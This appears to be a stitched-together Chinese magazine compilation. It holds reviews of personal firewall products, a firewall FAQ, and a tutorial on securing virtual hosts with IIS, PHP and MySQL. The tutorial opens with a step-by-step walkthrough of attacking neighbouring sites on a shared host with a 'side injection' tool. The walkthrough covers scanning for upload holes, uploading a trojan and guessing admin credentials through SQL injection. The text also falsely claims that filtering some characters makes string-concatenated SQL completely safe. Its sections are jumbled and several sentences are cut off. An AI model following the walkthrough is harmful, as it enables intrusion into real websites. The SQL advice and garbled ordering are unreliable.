NIS 个人防火墙使用两种规则：程序控制规则和一般规则。其中，程序控制规则控制计算机上的程序访问 Internet，一般规则控制其他所有传入和传出的网络通信。在处理过程中，NIS 个人防火墙首先处理一般规则，然后处理程序规则。在一般规则列表中，均按其出现的顺序从上往下进行处理，而程序控制条目不按顺序进行处理，但每个程序控制条目中的规则将按其出现的顺序从上往下得到处理。

##### （1）添加一般规则

首先，在主窗口的顶部，单击 Norton Internet Security 选项卡。然后，打开“设置”栏，在“其他选项”下，单击“Internet 安全和防火墙选项”。在“Internet 安全和防火墙选项”窗口的左侧，单击“高级设置”。最后，在右侧的“一般规则”下，单击“配置”；在“一般规则”窗口中，单击“添加”；按照添加规则向导的指导进行操作，如图 12 所示。



##### （2）添加程序规则

首先，在主窗口的顶部，单击 Norton Internet Security 选项卡。打开“设置”栏。在“其他选项”下，单击“Internet 安全和防火墙选项”。其次，在“Internet 安全和防火墙选项”窗口的左侧，单击“程序控制”。在右侧的“程序”列中，选择要向其添加规则的程序，单击“修改”。最后，在“程序规则”窗口中，单击“添加”，按照添加规则向导的指导进行操作，如图 13 所示。



#### 3. 集成的病毒防范、入侵防护和漏洞检测功能

Norton Internet Security 集成了 Norton AntiVirus，可以自动更新病毒库，将最新的病毒拒之门外，可以很好地达到保护计算机系统的作用。需要指出的是，这个软件占用系统资源较多，但对于一款具有更多安全防护功能的软件来说，比一般的个人防火墙占用更多的系统资源也很正常。因此，对于同时需要多种安全防护功能的用户来说，该软件是一个很好的选择；对于只需要基本防火墙功能的用户来说，可以考虑关闭其中部分的功能以节省系统资源。

另外，软件还集成了入侵检测、漏洞检测等功能。当发生攻击时，软件会自动出现提示，并给出详细的攻击信息。通过入侵防护，能够扫描进出计算机的所有网络通信，并将此信息与一组攻击特征进行比较。如果信息符合某个攻击特征，“入侵防护”会自动丢弃该包，并断开与发送该数据的计算机的连接。这样，就可以保护计算机不受最常见 Internet 攻击的侵害，如图 14 所示。

综合点评：Norton Internet Security 的个人防火墙功能十分强大，在系统监控、系统设置和规则设置等方面都十分方便，可以满足个人计算机用户的需要。通过病毒防范、入侵防护和漏洞检测等功能的配合，可以为用户提供更好的安全保障服务。不过，作为套件产品的一个组成部分，诺顿个人防火墙带有过多的共用组件，计算机的速度很容易受到影响。

### 二、ZoneAlarm 7.0.334.000

推荐指数：★★★★☆
软件下载地址：http://www.zonelabs.com/

ZoneAlarm 7.0.334.000 也是一款非常优秀的个人防火墙软件，它可以保护电脑不受互联网上非法用户的入侵，同时还能够自动检测局域网络的设置，确保来自内部网络的通信不受影响。除了没有中文版本以及缺少自动为应用程序创建防火墙规则的功能以外，ZoneAlarm 没有多少毛病可挑，而且软件是免费的。软件安装后，在出现的界面中，选择“Firewall（防火墙）”，即可看到如图15所示的界面。



#### 1. 规则设置

ZoneAlarm 基于程序的防护规则不仅仅针对应用级别，还能够在系统组件层次制订访问规则，可以明显加强针对应用程序的粗粒度防护。设置规则时，可以单击“Zones”选项卡，在此区域右下方会出现“Add（添加）”、“Remove（删除）”及“Edit（编辑）”按钮。或者直接在设置区域单击右键，在弹出的“Add（添加）”菜单中，可以选择“Host/Site（主机/网站）”、“IP Address（IP地址）”、“IP Range（IP域）”、“Subnet（子网）”等方面的规则设置，如图16所示。



#### 2. 特色安全保护功能

在功能上，ZoneAlarm 7.0.334.000 还具备广告过滤、隐私保护、清除 Cookie 等功能。它可以通过安全级别的选择简单配置防火墙规则，也可以通过“Advanced”高级选项详细设置各项功能。无论是防护功能还是防护广度，Zone Alarm 都很出色，该产品可以过滤网址、可以阻止弹出广告窗口、可以将未受保护的无线网络自动纳入保护范畴。

总的来看，Zone Alarm 在各个方面的表现都相当优异，而且在全球拥有一定的用户知名度。在运行效能上，Zone Alarm 较多应用了内容检测技术；在防御功能上，Zone Alarm 的表现很出色，尤其适合那些需要高级别安全防范的用户。

### 三、卡巴斯基个人防火墙 6.0.0.307

推荐指数：★★★★☆
下载地址：http://www.kaspersky.com.cn

卡巴斯基互联网安全套装 6.0 版结合了所有卡巴斯基实验室的最新技术，针对恶意代码、网络攻击、以及垃圾邮件进行防护。所有的程序组件可以无缝结合，从而避免了不必要的系统冲突，确保系统高效运行。软件可以保护电脑不被黑客攻击和入侵，全方位保护数据安全！所有网络资料存取的动作都会产生提示，存取动作是否放行都由用户来决定。软件界面如图 17 所示。



#### 1. 自定义规则

在规则设置上，软件有两类网络操作。首先是应用程序规则设置。在这一水平上，卡巴斯基反黑客软件将会分析网络应用上的活动，包括 Web 浏览器，邮件程序，以及文件传输程序和其它程序。其次，可以设置包过滤规则，禁止来自指定地址的计算机的通讯。比如：在图 18 中可以看到阻断了来自 192.168.1.1 地址的通讯，如果要禁止这样的攻击，建议启用入侵检测系统，如图 18 所示。



#### 2. 监控和安全日志功能

在运行过程中，如果创建了一个规则并且检查显示报文与规则相匹配，那么防火墙将自动记录日志。安全日志记录了所有进出本机的数据包信息，包括时间、源地址、目的地址、端口、协议、数据包长以及处理方式等。通过安全日志，用户可以对本机的网络活动有全面的了解，也可以根据日志信息进一步制定和修改规则。

### 四、其他优秀的国外个人防火墙

#### 1. BlackICE PC Protection V3.6.cqc

软件下载地址：http://www.networkice.com/

BlackICE PC Protection出自国外著名的安全系统公司Internet Security Systems，该公司的安全软件产品主要针对大型网络系统和服务器应用领域。此软件集成了强大的入侵检测分析引擎，能够识别多种入侵手段，与WEB、FTP等服务器软件也可以很好地协同工作。软件除了可以对共享资源和NetBIOS网络进行控制以外，还可以控制网络通讯和程序的运行，拦截可疑的网络入侵和有木马特征的应用程序。一旦有可疑的迹象发生，图标就会变红，不断闪动报警，并显示出攻击的发源地。该软件的灵敏度和准确率非常高，稳定性也相当出色，系统资源占用率极少，是一款优秀的个人防火墙软件。

在使用BlackICE的过程中，BlackICE耗用内存很少，运行起来对系统的影响也非常微小。在进行安全防范时，用户通常不需要过多的参与，系统引擎会自动为用户做出大部分决策。适合于具有一定专业技术知识的用户使用，同时也适合用于对性能敏感的应用环境。

#### 2. Agnitum Outpost Firewall Pro V4.0

软件下载地址：http://www.agnitum.com/

在最近公布的“2006年世界个人防火墙评测排名”中，Agnitum Outpost Firewall（以下简称为Outpost）排名为第二位，可见用户对其十分认可。这是一款短小精悍的网络防火墙软件，功能十分强大，甚至还包括了广告和图片过滤、内容过滤、DNS缓存等功能。

首先，Outpost不但能够阻止弹出窗口和按照内容阻止广告程序，用户还可以按照图片的幅面阻止图片的显示。这是一个颇具创造性的功能，用户可以增加一个针对大幅面图片的限制规则从而防止对非法图片的浏览。Outpost的间谍软件保护功能也很强大，除了能够实时的进行间谍软件监测之外，Outpost可以让用户执行高度定制化的间谍软件扫描。

其次，Outpost提供了完善的日志系统和详尽的统计信息供用户使用。Outpost的日志分类可以重新命名，而且提供了包括最常见的攻击等很多TOP排名信息，用户还可以将自己经常检索的信息放入收藏夹选项页方便查阅。

再次，该软件不需配置就可使用，这对于许多新手来说，变得很简单。尤为值得一提的是，这是市场上第一个支持插件的防火墙。除了基本的防火墙功能之外，Outpost的其它所有功能都以程序插件的形式进行管理，用户可以将兼容的插件导入到Outpost当中以扩展系统的功能，也可以定制组合出在功能上最适合自己的安全系统。

总的来看，Outpost在功能的全面性和细节上表现都比较优异。尽管在规则定义能力方面还有所欠缺，但是对于桌面级用户来说，Outpost突出的防御能力和易用性都具有无法抵挡的吸引力。

#### 3. McAfee Personal Firewall V7.1

软件下载地址：http://www.mcafee-at-home.com/

McAfee公司的一个出色的个人防火墙软件，它可以保护你免受来自Internet的黑客和木马程序等攻击。软件提供了安全设置助手和设置向导，易用性不错，并且软件的操作界面非常美观。McAfee的功能设计相当简洁规整，防火墙规则、应用程序规则、入侵检测规则和事件日志等四个主要的功能面板构成了McAfee的主界面，而大部分面向高级用户的选项都被划分到了程序菜单当中。

- **（1）定制规则**
    McAfee规则集定义能力是其最突出的特点之一，不但内置了大量的协议和服务支持（单就内置的协议数量来说恐怕没有产品能够与McAfee相提并论），而且在定义网络过滤规则的同时还可以选择相关的应用程序以进行更细致的限定。一个贴心的特性是McAfee可以克隆已有的规则并经过修改生成新的规则，这使得快速生成大量规则成为可能。
- **（2）非法入侵的检测和处理**
    McAfee对非法入侵的检测和处理有很多独到之处，当入侵发生时，McAfee可以嗅探相关数据并予以保存、将产生的攻击告警发送到用户指定的电子邮箱。如果用户将防护级别设置成学习模式，McAfee会将学习到的规则加入到刚刚使用的安全等级当中，从而形成自定义的安全等级。另外McAfee对应用程序的管理也相当细致，在授予各种应用程序权限的基础上，还能够管理应用程序是否可以调用其它的程序组件。
- **（3）与网站的联动服务**
    与其他防火墙软件不一样的是，McAfee的许多功能都依赖于网站服务，当应用程序请求访问互联网时，McAfee Personal Firewall都要访问特定网站来检测该程序，如通过黑客观察组织（http://www.Hackerwatch.org）这个网站来获取详细信息并询问是否信任该程序。

总的来看，McAfee在性能和细节设定上表现十分优异，McAfee能够对规则如何生效、什么时间生效等条件做出详尽的定义，McAfee Personal Firewall与McAfee公司的另外几款安全软件产品在功能上搭配的比较完美，如果同时使用其他几款产品的话，McAfee Personal Firewall是一个不错的选择。

#### 4. Kerio Personal Firewall V4.3.268

软件下载地址：http://www.kerio.com/

Kerio Personal Firewall是一款小巧的个人防火墙，它能够控制自己计算机与网络上的计算机的数据交换，保护你的计算机不受网络上用户的攻击，具有网络安全、隐藏保护、入侵检测、应用程序完整性检查四大功能，还能够屏蔽讨厌的广告、形形色色的脚本和控件，从多角度保护用户的计算机不受侵犯。软件占用系统资源很少，可对程序的通信进行控制，能够检测出特洛伊木马。另外，Kerio Personal Firewall还具备截断电脑上所有网络通信的控制功能，保护软件设置的密码保护功能，以及通过互联网进行远程管理等许多非常细致的功能。

#### 5. Sygate Personal Firewall Pro V5.6.2828

软件下载地址：http://www.sygate.com/free/spf_download.htm#spfreq

Sygate Personal Firewall是一个简单易用的个人防火墙，适合于单机用户来防止入侵者非法进入系统。该软件提供了多层保护的防火墙安全环境，能够从系统内部进行保护，并且可以在后台不间断地运行，从而有效防止入侵者和黑客的侵袭。该软件还提供有安全访问和访问监视功能，并可向你提供所有用户的活动报告，当检测到入侵和不当的使用后，能够立即发出警报。不过，软件没有提供自动创建防火墙规则的功能，用户需要处理所有应用程序访问互联网的请求。有时候虽然给出了非常详细的监视信息，但没有给用户任何的处理建议。另外，只要应用程序有一点改变，即使打了个补丁，该应用程序访问互联网时，也需要重新设置防火墙规则。该软件的功能与特点使它更适合在服务器上使用。

### 五、防火墙使用中的常见问题

#### 1. 如何识别非法的进程

答：一般个人防火墙都有网络进程监控功能，可以帮助用户发现计算机内部的非法进程和非法操作。以天网防火墙个人版为例，用户可以很方便地看清楚自己机器的网络状况，以及各个进程对网络的访问又是如何的。一旦发现了有不正常的进程，可以用工具条上的“结束进程”键来禁止它们访问。此外，由于非法进程要访问网络，个人防火墙会拦截这些未经审核的程序，直到通过审核为止。

通过上述详细介绍，我们对流行的个人防火墙软件有了一个比较详细的了解。总的来说，这些防火墙软件都能够提供不错的安全防御功能，能够有效地阻止各种病毒及后门软件的入侵。它们之间的差别只在于所使用的技术和所提供的功能不同。相对而言，国外的优秀软件比较多，功能也很实用，但这些软件对用户的要求比较高。在这方面，简单易用的国内个人防火墙就具有一定的优势了。当然，网络安全问题变化莫测，构建一个安全的网络系统，防火墙并非万无一失，我们还要从病毒防范、入侵检测甚至用户安全意识等角度出发，从而构筑一个安全的操作环境。

### 2. 如何关闭139端口

答：139端口是一个微软文件共享的端口，我们可以通过防火墙保护139端口，也可以直接在TCP/IP协议属性里关闭NetBIOS协议。

#### 3. 联机玩游戏时是否有必要关闭天网防火墙？

答：在上网联机游戏时，经常会出现互相访问IP地址进行联机的情况。由于网络游戏软件的特殊性，传统防火墙一般不能识别出它们，从而使得网络游戏的互联不顺畅。所以在玩游戏的时候，一般是要关闭个人防火墙软件的。这样的话，用户的安全性又得不到保证了，所以是一个两难的问题。

现在，有一部分防火墙具有智能识别功能，可以保证用户既能顺畅地进行网络游戏，又可以很好地保障用户的网络安全。以天网防火墙个人版为例。首先，我们到防火墙的“系统设置”界面下，把“允许所有的应用程序访问网络，并在规则中记录这些程序”勾选上。这样，网络游戏就可以顺利地进行它们的网络调用了。然后到防火墙的应用程序规则列表里看看，网络游戏的各个进程应该已经在列表里了。进行相关权限和端口设置后，就可以玩网络游戏了。

### 4. 为什么总有Internet网站探测到本机地址

答：在实际应用中，很多用户安装防火墙个人版后，总是会出现被Internet网站探测本机IP地址的情况。这种现象比较常见，根据TCP/IP传输协议的规则，在上网时，就必须和其他机器进行连接，那么就会被探测到IP地址，这种地址泄漏和黑客攻击或者扫描没有直接的关系。另外，在防火墙日志中，也可能出现类似“该包被拦截”的内容，这种情况很可能是由于对方Web服务器感染了“红色代码”，不断的向外发包，并不是电脑受到攻击。

#### 5. 如何知道防火墙的进程保护已经发挥作用了

答：一般情况下，可以通过在任务管理器里结束天网防火墙进程来测试，这时您会发现无法结束此进程，说明进程保护已经发挥作用了。

# 虚拟主机安全防护完全教程

文 / 彭文波

2007年以来，以“熊猫烧香”为代表的系列病毒尤其猖狂，此类病毒的典型特点是习惯于通过网站进行传播。以2007年4月1日蔓延十分迅速的“ANI蠕虫”病毒为例，该病毒会利用感染的电脑从网上下载多种木马、后门病毒，使得用户游戏等账号被盗，或者电脑变成被黑客控制的“肉鸡”。很多黑客开始通过侵入他人网站放置病毒，来间接对网民实行攻击。在这场病毒大战中，最无辜的应该就是这些使用虚拟主机或相关服务器的用户了！

### 小知识：whois 查询技术

平时使用的DNS域名需要统一向总部位于美国的国际域名组织进行注册，为了方便管理，国际域名组织将域名的信息放到了whois查询系统中，这样，我们只要使用whois就能查出某域名解析的IP了。得到解析的IP后，通过whois在域名的记录里就能找到所有解析到这个IP的域名信息。或者直接到网站查询IP，地址为：http://whois.webhosting.info。

就像准备探测敌情的侦察兵一样，在完成对一个项目的实地考察之后，就可以开始测试了。

现在，许多个人网站站长或小型企业网站都采用了虚拟主机的方式。虚拟主机技术可以把一台网站服务器划分为若干个“虚拟”的主机，每个虚拟主机都有一个独立的网站，可以具有独立的域名和完整的Internet服务器功能。对于网站访问者来说，每一台虚拟主机和一台独立的主机（采用服务器托管、专线上网等方式建立的服务器）完全一样。用虚拟主机建设网站，具有费用低、管理简单、网站建设效率高的特点。不过，随着虚拟主机数量的增加，安全问题也日益严重。从近几年尤其是今年的病毒传播来看，很多网站开通不久就遭遇了频繁的攻击，或者干脆沦为黑客的“替罪羊”。本专题综合多个典型案例，结合最新的服务器安全防范技术、病毒防范技术和编程技术，使用户掌握安全使用虚拟主机和快速建设网站的同时，全面提高系统的安全防护能力。

### 1. 锁定目标：通过检测寻找漏洞

（1）打开“旁注入侵专用程序”软件，在“旁注检测”选项卡中，单击“网站批量检测”按钮，将会载入所有检测到的网站地址。如果要测试目前比较热门的上传漏洞等缺陷，可以选择一些可能存在的地址，如upfile.asp、saveup.asp等。在右边，我们可以选择“上传”、“数据库”、“后台”三个项目之一，然后进行检测。

## 一、案例：一个“注入”引发的虚拟主机安全

现在，在和电脑相关的杂志上，最常见的就是：“**网站被攻击！”旁注入侵，顾名思义，就是“从旁注入”，它的主要方法是利用同一电脑上不同网站的漏洞进行入侵，达到“一损俱损，一荣俱荣”效果！因此，对于一个有着多个网站的虚拟主机来说，旁注的杀伤力是很大的。我们结合最新的旁注工具“旁注入侵专用程序”和其他典型工具进行讲解。

“旁注入侵专用程序”下载地址：http://www.hackdiy.com/

就像打仗之前要侦察敌情一样，要针对某一个网站入侵，就必须要了解这个网站虚拟空间的总体结构。也许，很多网站本身并不存在什么程序漏洞，但是，如果和它同在一个虚拟主机中的其他网站存在漏洞，也会导致入侵者通过whois查询等方式对目标网站进行攻击。

（2）我们以默认的“上传”为例，单击“开始检测”按钮，就可以得到的结果，如图1所示。



图1

（3）看看网站有没有论坛漏洞。检测中，从网站首页就可以看出这个网站有没有论坛。这时，选择一个可能存在上传漏洞的页面，在弹出的菜单中选择“上传木马”，就可以进入到上传界面了。探测实例中，列举了存在漏洞

## 2. SQL注入：虚拟主机的安全隐患

+   （1）批量对多个网站进行注入点扫描。在上面的实例中，单击“SQL注入”标签，再单击“载入查询网址”，就可以载入这台虚拟主机上的网站对象。

#### 小知识：什么是 SQL 注入漏洞

SQL注入越来越多地被利用来入侵网站，给目前的网络安全造成了很大的威胁。由于部分WEB程序员对入侵的方法一知半解，导致在过滤的时候漏掉某些字符，造成安全漏洞；或者是草木皆兵，把一些合法的用户请求都拒之门外。下面，我们看这三句最简单SQL语句：

| 序号 | SQL语句 | 参数类型 |
| :--- | :--- | :--- |
| 1 | SQL="Select * from Users where UserID=" & Request("ID") | 数值型 |
| 2 | SQL="Select * from Users where UserID='" & Request("ID") & "'" | 字符型 |
| 3 | SQL="Select * from Users where UserName like '%" & Request("Name") & "%'" | 字符型 |

区分数值型和字符型参数，只要看SQL语句参数两边有没有单引号即可，很明显，第一句没单引号，是数值型；第二第三句有单引号，是字符型。对于数值型变量，传入的参数都会直接附加到SQL语句上执行。所以，字符型变量只要过滤了一些特殊的符号就完全安全了。这样，既可以保持用户输入的原貌，又可以保证程序的安全。

然后，单击“批量分析注入点”，很快就可以得到如图2所示的注入地址了。



+   （2）现在，在下面检测到的红色注入地址中，随便选中一个网站注入点，选中后点击右键，在弹出的菜单中选择“检测注入”，进入到“SQL注入猜解检测”界面，如图3所示。

+   （3）在这里，经过“猜解表名”、“猜解列名”、“猜解内容”后，就可以得到网站的管理员账号和密码。找到管理地址后，就可以轻而易举地进行攻击了。至此，一个完整的攻击实例就结束了。



### 3. 针对注入攻击的安全配置

下面，针对旁注攻击的各种入侵手法来对服务器进行全面的安全设置。

+   （1）针对服务器组件的限制
那么，用户在实际测试中应该怎样来防范ASP后门木马程序呢？其实，对于ASP后门木马的防范，我们只要在注册表中把“shell.application”、“WSCRIPT.SHELL”等危险的脚本对象进行改名或删除，也就是限制系统对“脚本SHELL”的创建，ASP木马也就成为无本之木、无米之炊，运行不起来了。另外，还可以调用Cmd.exe，禁用Guests组用户调用。通过这些设置基本可以防范目前比较流行的几种木马，但最有效的办法还是通过综合安全设置，将服务器、程序安全都达到一定标准，才可能将安全等级设置较高，防范更多非法入侵。按照上述方法对ASP类危险组件进行处理后，可以用一些站点探针测试一下，或者再用“海洋顶端木马”测试，看运行是否正常。

+   （2）针对用户目录的限制
目前有很多的脚本都有可能导致安全隐患，因此在设定IIS中网站的目录权限时，要严格限制执行、写入等权限。比如，只要是服务器中的一个虚拟空间的用户，攻击者就可以把木马传上去，如果目录权限设置不严格，这个用户只要输入相应的目录，木马程序就可以完成文件的COPY、MOVE和执行程序。根据实践来看，中国很多的虚拟空间服务商，特别是一些小型的服务商在安全管理上还有很多问题，也就造成了旁注泛滥的状况。

通过这个注入引发的攻击案例，可以带给我们很多的思考。试想，如果攻击者将一些恶意的病毒或木马放到这些网站，不知道其中问题的用户很容易上当，致使电脑系统感染病毒。了解这些原理，对于安全使用电脑也有很大的作用。只要服务器中稍微存在一些配置疏忽，就可能导致网站被旁注入侵并被夺取权限。

## 二、追根溯源：常用虚拟主机的安全防护及配置

目前，最常用的三种动态网页语言有ASP(Active Server Pages）、JSP(JavaServer Pages）、PHP (Hypertext Preprocessor)。关于ASP、PHP、JSP的调试，很多用户可能见得多了。不过，在漫天飞舞的网络安全问题中，他们则占据着半壁江山。“条条大路通罗马”，要达到这个目标，方法有很多。之所以选择如下典型配置，是因为其特有的简单和快捷，适合各种层次的读者使用。为了解网站配置的详细原理，下面，我们分别以典型的ASP、PHP、JSP等虚拟主机平台为例进行分析。

### 1. ASP虚拟主机的安全配置与防护

ASP全名Active Server Pages，是一个WEB服务器端的开发环境，利用它可以产生和执行动态的、互动的、高性能的WEB服务应用程序。ASP采用脚本语言VBScript或Javascript作为自己的开发语言。Windows 2000/XP/2003默认安装都带有IIS，也可以在Windows 2000/XP/2003等服务器安装完毕后加装IIS。IIS是微软出品的架设WEB、FTP、SMTP服务器的一套整合软件，捆绑在Windows 2000/XP/2003中。

以Windows XP为例，打开控制面板中的“添加/删除程序”，单击左边的“添加删除Windows组件”，在弹出的配置窗口中选择“Internet信息服务(IIS)”。相信很多用户应该对这个界面很熟悉了。安装完毕，打开IIS界面，就可以开始调试我们所需要发布的ASP程序了，如图4所示。



现在，关于IIS以及ASP的相关安全问题逐渐浮出水面。因为IIS的方便性和易用性，使它成为最受欢迎的Web服务器软件之一。但是，IIS的安全性却一直令人担忧。如何利用IIS建立一个安全的Web服务器，也开始成为很多人所关心的话题。

**小技巧：** 要创建一个安全可靠的Web服务器，必须要实现Windows操作系统和IIS的双重安全，因为IIS的用户同时也是Windows 2000/XP/2003的用户，并且IIS目录的权限依赖Windows的NTFS文件系统的权限控制，所以保护IIS安全的第一步就是确保Windows操作系统的安全。

+   1. 尽量使用NTFS文件系统，以便对文件和目录进行管理

**小技巧：** NTFS全称为“New Technology File System”，是NT系列操作系统的标准文件系统。NTFS的发展同样经历了数个版本，最初是应用于Windows NT3.1的1.1版，接着是WindowsNT3.51/4.0中的1.2版，然后是Windows2000中的3.0版以及WindowsXP中的3.1版。这些是内部版本命名，一般人们则通常把1.X版统称为4.0版，把3.0版和3.1版称为5.0版和5.1版。更新的版本只是添加了额外的特性，基本的组织结构并没有变化。它与FAT文件系统最主要的分别是NTFS支持元数据（Metadata），可利用先进的数据结构提供更好的性能、稳定性和磁盘利用率。至于兼容性方面，Windows 9X系列无法识别NTFS。

+   2. 修改共享权限

建立新的共享后立即修改Everyone的缺省权限，不要让Web服务器访问者得到不必要的权限。

+   3. 为系统管理员账号更名，避免非法用户攻击

鼠标右击桌面上的“我的电脑”，在弹出的菜单中选择“管理”，启动“计算机管理”程序，在“本地用户和组”中，鼠标右击“管理员账号(Administrator)”，在弹出的菜单中选择“重命名”，将管理员账号修改为一个很普通的用户名。

+   4. 关闭默认的共享设置

打开注册表编辑器，展开如下项：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]，添加键值AutoShareServer，类型为REG_DWORD，值为0。这样就可以彻底关闭“默认共享”。如图5所示。



+   5. 修改注册表，减小拒绝服务攻击的风险

打开注册表，将[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]项下的SynAttackProtect的值修改为2，可最有效地防御SYN攻击。如果没有该值直接添加即可。该值为连接识别添加了额外的延迟，并且在出现SYN攻击时，使TCP连接请求的超时时间更短，如图6所示。


+   6. TCP/IP上对进站连接进行控制

鼠标右击桌面上的“网络邻居”，在弹出的窗口中双击“本地连接”，然后单击“属性”按钮，打开“本地连接属性”对话框。在此对话框中，选中“Internet协议(TCP/IP)”，单击“属性”按钮，在弹出的属性界面中单击“高级”按钮，出现“高级TCP/IP设置”界面。在此界面中，单击“选项”卡，如图7所示。



在列表中单击选中“TCP/IP筛选”选项。单击“属性”按钮，选择“只允许”，再单击“添加”按钮，只填入80端口，如图8所示。



+   （7）解除TCP/IP上的NetBIOS

在“高级TCP/IP设置”界面中，单击“WINS”选项卡，选中下侧的“禁用TCP/IP上的NetBIOS”一项即可解除TCP/IP上的NetBIOS，如图9所示。



**小技巧：**

要构建一个安全的IIS服务器，必须从安装时就充分考虑安全问题。除了修改IIS的安装默认路径，打上Windows和IIS的最新补丁，还要注意IIS的安全配置。

+   （8）删除危险的IIS组件

默认安装后的有些IIS组件可能会造成安全威胁，例如Internet服务管理器(HTML)、SMTP Service和NNTP Service、样本页面和脚本，大家可以根据自己的需要决定是否删除。

+   （9）删除不必要的虚拟目录

IIS安装完成后在wwwroot下默认生成了一些目录，包括IISHelp、IISAdmin、IISSamples、MSADC等，这些目录都没有什么实际的作用，可直接删除。

+   （10）删除不必要的应用程序映射

IIS中默认存在很多种应用程序映射，除了ASP的这个程序映射，其他的文件在网站上都很少用到。在“Internet服务管理器”中，右击网站目录，选择“属性”，在网站目录属性对话框的“主目录”页面中，点击“配置”按钮，弹出“应用程序配置”对话框，在“映射”页面，删除无用的程序映射，如图10所示。



如果需要这一类文件时，必须安装最新的系统修补补丁，并且选中相应的程序映射，再点击“编辑”按钮，在“添加／编辑应用程序扩展名映射”对话框中勾选“检查文件是否存在”选项。这样当客户请求这类文件时，IIS会先检查文件是否存在，文件存在后才会去调用程序映射中定义的动态链接库来解析，如图11所示。



+   （11）为IIS中的文件分类设置权限

除了在操作系统里为IIS的文件设置必要的权限外，还要在IIS管理器中为它们设置权限。一个好的设置策略是：为Web站点上不同类型的文件都建立目录，然后给它们分配适当权限。例如：静态文件的文件夹允许读，拒绝写；ASP脚本文件夹允许执行，拒绝写和读取；EXE等可执行程序允许执行，拒绝读写。

+   （12）保护日志安全

日志是系统安全策略的一个重要环节，确保日志的安全能有效提高系统整体安全性。

+   ①可以选择修改IIS日志的存放路径。默认情况下，IIS的日志存放在%WinDir%\System32\LogFiles，攻击者当然非常清楚，所以最好修改一下其存放路径。在“Internet服务管理器”中，右击网站目录，选择“属性”，在网站目录属性对话框的“网站”页面中，在选中“启用日志记录”## 2. PHP虚拟主机的安全配置与防护

PHP最初是被称作Personal Home Page，后来随着PHP成为一种非常流行的脚本语言，名称也随之改变了，叫做Professional HyperText PreProcessor。以PHP4.2为例，支持它的WEB服务器有：Apache，Microsoft IIS，Microsoft PWS，AOLserver，Netscape Enterprise等等。它是一种跨平台的服务器端的嵌入式脚本语言。它大量地借用C、Java和Perl语言的语法，并耦合PHP自己的特性，使WEB开发者能够快速地写出动态产生页面。还有一点，PHP是完全免费的，不用花钱，用户可以从PHP官方站点(http://www.php.net)自由下载。而且可以不受限制地获得源码，甚至可以从中加进自己需要的特色功能。

对于PHP的应用，使用Linux的操作系统下的Apache+PHP+MySQL配置可以达到比较满意的效果，理由很简单，PHP的原型就是基于Linux系统开发的一个Web服务工具，虽然为了方便也移植到Windows系统中，但是却有相当部分的功能和性能不能完全发挥。不过，对于已经习惯使用Windows系统的安全爱好者来说，Windows系统的普及性决定了Windows下的测试环境仍然是首选的整合。默认情况下，IIS是不支持PHP的，手工配置IIS的PHP调试环境相对繁琐，而且还不一定能保证配置成功。因此，很多安全爱好者原本希望测试PHP脚本，却陷入了环境配置的无尽烦恼中。那么，如何才能让IIS支持PHP呢？下面介绍一种方法，只需要简单几步就能在IIS中配置好PHP调试环境。

- （1）登录http://www.php.net/downloads.php，下载最新的PHP for Windows版本。本例所测试的是PHP 5.0.4 installer这个版本。
- （2）安装这个软件。这时，软件会提示选择需要配置的IIS版本。当然，我们也可以选择安装Apache等Web服务器，这样也可以直接在其上进行安装PHP。选择后，直接按“Next”进入下一步，如图14所示。
- （3）完成安装，软件会出现安装成功的提示。在这样的环境下，我们就可以开始对PHP程序进行安全测试了。现在，在“Internet服务管理器”中，右击网站目录，选择“属性”，在网站目录属性对话框的“主目录”页面中，点击“配置”按钮，弹出“应用程序配置”对话框，在“应用程序映射”页面，就可以看到PHP程序的配置文件了。
- （4）安装MySQL程序。打开http://www.MySQL.com/downloads/index.html下载推荐的MySQL数据库稳定版本。







在PHP的安全调试实践中，使用PHP和MySQL的结合，可以生成后门木马。就PHP本身而言，它还存在远程溢出、远程拒绝服务、safe_mode绕过漏洞以及PHP本身的安全配置问题。例如：PHP-4.1.2以下的所有版本都存在文件上传远程缓冲区溢出漏洞，而且攻击程序已经广泛流传。PHP-4.2.0和PHP-4.2.1存在PHP multipart/form-data POST请求处理远程漏洞，虽然不能获得本地用户权限，但是也能造成拒绝服务。因此，除了保证IIS、Apache等Web服务器的安全外，还要从PHP本身的安全等方面着手，如

小技巧：如果需要其他的扩展功能，可以直接下载PHP的zip安装包，解压缩到C:\PHP目录下。这可是一个最简单直接的办法了，这样很多功能都可以使用了。如果要使用MySQL数据库，还要打开C:\winnt下的php.ini文件，找到“extension_dir = "."改为“extension_dir = "c:/php/ext"”，找到“;extension=php_MySQL.dll”将“;”去掉，改为“extension=php_MySQL.dll”。这样就可以直接调用MySQL的功能模块了。

# 超级软件教程

安装完毕，软件会提示选择“Service Name”和设置 Windows 的环境变量，如图 15 所示。



最后，设置默认的管理员密码，安装完毕。MySQL 的执行性能非常高，运行速度非常快，并非常容易使用，是一个非常优秀的免费数据库。在 PHP 下面用浏览器打开 http://localhost/testdb.php，如果输出“success”，表示数据库连接正确。testdb.php 的代码如下：

```
php
<?php
$link=MySQL_connect('localhost','root','123456');
if(!$link) echo "fail";
else echo "success";
MySQL_close();
?>
```

- （5）测试 phpmyadmin 管理程序。首先，需要下载 phpmyadmin 这个程序。打开 http://www.phpmyadmin.net 网站，找到下载区，开始下载 phpmyadmin 管理程序。将程序拷贝到 IIS 的某个虚拟目录下。打开后的 phpmyadmin 界面如图 16 所示。



完成上述环境搭建之后，我们重点关注一下 PHP 配置的一些安全问题。PHP 的配置非常灵活，可以通过 php.ini、httpd.conf、.htaccess 文件进行设置，还可以在脚本程序里使用 ini_set() 及其他的特定的函数进行设置。

#### 表 1 PHP 典型安全配置问题

| 问题 | 描述 | 解决方法 |
| --- | --- | --- |
| safe_mode 问题 | safe_mode 是唯一 PHP_INI_SYSTEM 属性，必须通过 php.ini 或 httpd.conf 来设置。<br>设置了 safe_mode 以后，所有命令执行的函数将被限制只能执行 php.ini 里 safe_mode_exec_dir 指定目录里的程序，而且 shell_exec、`ls -l` 这种执行命令的方式会被禁止。 | 启用 safe_mode。虽然 safe_mode 不是万能的（低版本的 PHP 可以绕过），但还是强烈建议打开安全模式，在一定程度上能够避免一些未知的攻击。不过，安全从来都是要付出代价的，启用 safe_mode 后，肯定会有很多限制，应充分考虑其对应用带来的可能影响。要启用 safe_mode，只需修改 php.ini 配置文件中的如下选项：safe_mode = On |
